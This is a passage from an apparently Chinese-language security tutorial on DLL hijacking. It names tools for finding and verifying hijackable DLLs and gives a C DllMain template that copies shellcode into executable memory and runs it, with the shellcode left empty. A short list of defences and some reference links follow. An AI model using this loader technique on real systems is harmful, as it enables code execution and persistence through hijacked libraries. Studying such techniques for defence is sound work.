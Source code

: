 ```
```

自动化，可以使用rattler去寻找可以劫持的dll，也可以用windbg导出加载的module配合chkDllHijack进行验证

还有一个AheadLib.exe工具来负责导出cpp

劫持后就可以添加代码，不光是执行命令，写入shellcode也是可以的

```
入口函数

BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)

{

        char ShellCode[] = "";

        void* exec = VirtualAlloc(0, sizeof ShellCode, MEM_COMMIT, 
PAGE_EXECUTE_READWRITE);

        memcpy(exec, ShellCode, sizeof ShellCode);

        ((void(*)())exec)();

        if (dwReason == DLL_PROCESS_ATTACH)

        {

               DisableThreadLibraryCalls(hModule);

        }

        else if (dwReason == DLL_PROCESS_DETACH)

        {

        }

        return TRUE;

}

```

# 防御

- 调用第三方DLL时,使用绝对路径
- 调用API SetDllDirectory(L”“)将当前目录从DLL加载顺序中移除



参考链接：

https://sh1yan.top/2019/06/16/The-Principle-and-Practice-of-DLL-Hijacking/#/

https://xz.aliyun.com/t/12365

https://www.anquanke.com/post/id/225911#/h3-13

https://xz.aliyun.com/t/11711
